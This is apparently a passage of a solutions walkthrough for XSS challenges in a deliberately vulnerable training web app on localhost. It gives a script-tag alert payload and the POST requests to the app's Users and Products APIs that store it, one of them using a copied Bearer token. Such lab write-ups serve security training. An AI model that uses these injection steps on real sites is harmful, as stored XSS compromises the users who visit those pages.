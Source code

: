 ### Perform a reflected XSS attack with <script>alert("XSS")</script>.
* Search
* Track Orders
### Perform a DOM XSS attack with <script>alert("XSS")</script>.	

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a client-side security mechanism.
* Submit a POST request to http://localhost:3000/api/Users with
* Content-Type: application/json

* Post Params
  * {"email": "<script>alert(\"XSS\")</script>", "password": "anything"}
  
#### Perform a persisted XSS attack with <script>alert("XSS")</script> without using the frontend application at all.	

* Be authenticated
* Copy your Authorization header from an HTTP request submitted via browser.
* Submit a POST request to http://localhost:3000/api/Products with
* {"name": "XSS Juice", "description": "<script>alert(\"XSS\")</script>", "price": 23.99} as body,
* Content-Type: application/json
* Bearer ? as Authorization header, replacing the ? with the token you copied from the browser.

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a server-side security mechanism.
